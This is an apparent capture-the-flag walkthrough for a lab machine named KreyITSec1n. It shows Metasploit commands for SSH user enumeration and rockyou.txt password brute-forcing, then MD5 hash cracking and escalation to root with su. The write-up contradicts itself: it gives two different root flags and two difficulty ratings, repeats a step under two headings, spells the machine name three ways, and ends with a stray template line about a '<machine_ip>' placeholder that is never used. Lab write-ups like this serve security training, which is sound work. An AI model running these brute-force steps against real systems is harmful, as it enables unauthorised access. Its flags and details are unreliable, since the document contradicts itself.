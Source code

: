 ![banner](https://github.com/Netzknoten/HackTheBoxDevelopment/assets/114874531/31803b85-ca77-49eb-aabd-93968dfec7f3)



![htb](https://github.com/Netzknoten/HackTheBoxDevelopment/assets/114874531/52668f57-29eb-4702-95bb-5219739927da)
    	
<font size="10">KreyITSec1n</font>

​		27<sup>th</sup> Sep 2023

​		Machine Author(s): Manuel Krey

​		

 



### Description:

This machine (kreyitsec1n) KreyITSecLogin is a simple engine on Hack The Box.The objective is to obtain the `user.txt` and `root.txt` flags. The initial access to the machine was achieved by performing a specific set of steps.    

### Difficulty:

`medium`

### Flags:

User: `e10adc3949ba59abbe56e057f20f883e`

Root: `e7d66c50aa9a5c39c3d6d985b70e0a33`

# Foothold

To gain an initial foothold on the KreyITSecIn machine, we followed a series of steps.

# Enumeration

Initial enumeration was performed to gather information about the KreyITSec1n machine and the Webhost Blogger. This included identifying open ports, services, and potential vulnerabilities.

### User Enumeration

We used Metasploit to enumerate usernames on the SSH service:

	msfconsole
	use auxiliary/scanner/ssh/ssh_enumusers
	set RHOSTS 10.0.2.4
	set USER_FILE /usr/share/wordlists/metasploit/namelist.txt
	set THREADS 55
	run

We discovered the username "bob" as the blogger's first name.
SSH Login

We attempted to log in to the SSH service as user "bob" using a password brute-force attack:

	use auxiliary/scanner/ssh/ssh_login
	set THREADS 55
	set RHOSTS 10.0.2.4
	set USERNAME bob
	set PASS_FILE /usr/share/wordlists/rockyou.txt
	set VERBOSE true
	run
We successfully obtained the password in the output:

	10.0.2.4:22 - Success: 'bob:123456' 'uid=1000(bob) gid=1000(bob) groups=1000(bob),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),118(bluetooth) Linux kreyitsec1n 3.16.0-4-amd64 #1 SMP Debian 3.16.51-2 (2017-12-03) x86_64 GNU/Linux '

We logged in successfully using SSH:

	ssh bob@10.0.2.4
	
After a successful login, we executed the ls command and found the user.txt file.
	
	cat user.txt

We obtained the user flag: e10adc3949ba59abbe56e057f20f883e.


# Lateral Movement

To move laterally within the KreyITSecIn machine, we took the following actions:

### Enumeration of Additional Files

After gaining access as user "bob," we noticed a file named `topsecret.txt` and decided to examine its content. We executed the following command:

	cat topsecret.txt

The content of topsecret.txt revealed valuable information, including the root password in an MD5 hash format: 25f9e794323b453885f5181f1b624d0b.

# Privilege Escalation

We also found a file named topsecret.txt and examined its content with the following command:


	cat topsecret.txt

We obtained the root flag in the form of an MD5 hash: 25f9e794323b453885f5181f1b624d0b. We cracked this MD5 hash using an online tool (e.g., crackstation.net) and obtained the root password: 123456789.

We then logged in as root using the following command:

	su -

After becoming root, we executed the ls -la command and found the root.txt file.

	cat root.txt

We obtained the root flag: Y0uhav3Captur3Dth3FlaG.

# Conclusion

In conclusion, KreyITSecIn was an easy-level machine on Hack The Box that required a specific set of steps to gain initial access. Lateral movement and privilege escalation techniques were employed to reach the ultimate goal of obtaining both the user and root flags.

	Please replace `<machine_ip>` with the actual IP address of the KreyITSecIn machine and make any necessary adjustments based on your experience with the machine. If you have any further details to add or any changes to make, please feel free to do so.	

